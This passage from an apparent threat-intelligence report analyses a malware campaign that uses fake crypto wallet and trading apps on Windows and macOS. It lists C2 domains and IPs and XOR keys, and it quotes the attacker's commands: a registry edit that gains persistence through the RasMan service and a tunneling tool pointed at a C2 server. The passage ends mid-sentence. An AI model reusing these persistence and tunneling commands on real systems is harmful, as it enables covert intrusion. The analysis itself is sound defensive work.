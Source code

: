 The actor used a multi-stage infection like before, but the method was different. The infection started from .NET malware, disguised as a WFC wallet updater (a9e960948fdac81579d3b752e49aceda). Upon execution, this .NET executable checks whether the command line argument is “/Embedding” or not. This malware is responsible for decrypting the WFC.cfg file in the same folder with a hardcoded 20-byte XOR key (82 d7 ae 9b 36 7d fc ee 41 65 8f fa 74 cd 2c 62 b7 59 f5 62). This mimics the wallet updater connected to the C2 addresses:

wfcwallet.com (resolved ip: 108.174.195.134)
www.chainfun365.com (resolved ip: 23.254.217.53)

After that, it carries out the malware operator’s commands in order to install the next stage permanent payload. The actor delivered two more files into the victim’s system folder: rasext.dll and msctfp.dat. They used the RasMan (Remote Access Connection Manager) Windows service to register the next payload with a persistence mechanism. After fundamental reconnaissance, the malware operator implanted the delivered payload by manually using the following commands:

cmd.exe /c dir rasext.dll
cmd.exe /c dir msctfp.dat
cmd.exe /c tasklist /svc | findstr RasMan
cmd.exe /c reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\RasMan\ThirdParty /v DllName /d rasext.dll /f

In order to establish remote tunneling, the actor delivered more tools, executing with command-line parameters. Unfortunately, we have had no chance to obtain this file, but we speculate that Device.exe is responsible for opening port 6378, and the CenterUpdater.exe tool was used for creating tunneling to a remote host. Note that the 104.168.167.16 server is used as a C2 server. The fake website hosting server for the UnionCryptoTrader case will be described next.

Port opener:

%APPDATA%\Lenovo\devicecenter\Device.exe 6378

Tunneling tool:

%APPDATA%\Lenovo\devicecenter\CenterUpdater.exe 127.0.0.1 6378 104.168.167.16 443
Change of macOS malware
JMTTrading case
While tracking this campaign, we identified more heavily deformed macOS malware. At the time, the attacker called their fake website and application JMTTrading. Other researchers and security vendors found it too, and published IoCs with abundant technical details. Malware Hunter Team tweeted about this malicious application, Vitali Kremez published a blog about the Windows version of the malware, and Objective-See published details about the macOS malware. We believe these reports are sufficient to understand the technical side. Here, we would like to highlight what’s different about this attack.

The actor used GitHub in order to host their malicious applications.
The malware author used Object-C instead of QT framework in their macOS malware.
The malware implemented a simple backdoor function in macOS executable.
The malware encrypted/decrypted with a 16-byte XOR key (X,%`PMk–Jj8s+6=) similar to the previous case.
The Windows version of the malware used ADVobfuscator, a compiled time obfuscator, in order to hide its code.
The post-install script of macOS malware differed significantly from the previous version.

UnionCryptoTrader case
We also identified another macOS targeted attack that took place very recently. The malicious application name in this case is UnionCryptoTrader. After compiling a threat intelligence report for our customers, one security researcher (@dineshdina04) discovered an identical case, and Objective-See published a very detailed blog on the macOS malware used in this attack. The Objective-See blog goes into sufficient detail to explain the malware’s functionality, so we will just summarize the attack:
